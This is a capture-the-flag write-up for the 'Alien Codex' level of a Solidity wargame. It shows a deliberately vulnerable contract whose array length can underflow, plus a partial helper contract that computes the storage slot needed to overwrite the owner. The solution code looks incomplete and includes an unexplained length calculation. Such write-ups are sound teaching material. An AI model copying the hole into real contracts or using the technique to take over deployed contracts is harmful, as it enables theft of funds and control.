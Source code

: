 # Level 19 - Alien Codex

### Objective

The objective of this level is as follows:

1. You've uncovered an Alien contract. Claim ownership to complete the level.

### Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }

  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

### Solution

Solution inspired by [Igor Yalovoy](https://medium.com/@ylv):

```
contract Solve {

    bytes32 public one;
    uint public index;
    uint public length;
    bytes32 public lengthBytes;

    function getIndex() {
        one = keccak256(bytes32(1));
        index = 2 ** 256 - 1 - uint(one) + 1;
    }

    function getLength() {
        length = 2 ** 200 + 1;
        lengthBytes = bytes32(length);
    }
}
```

Done!
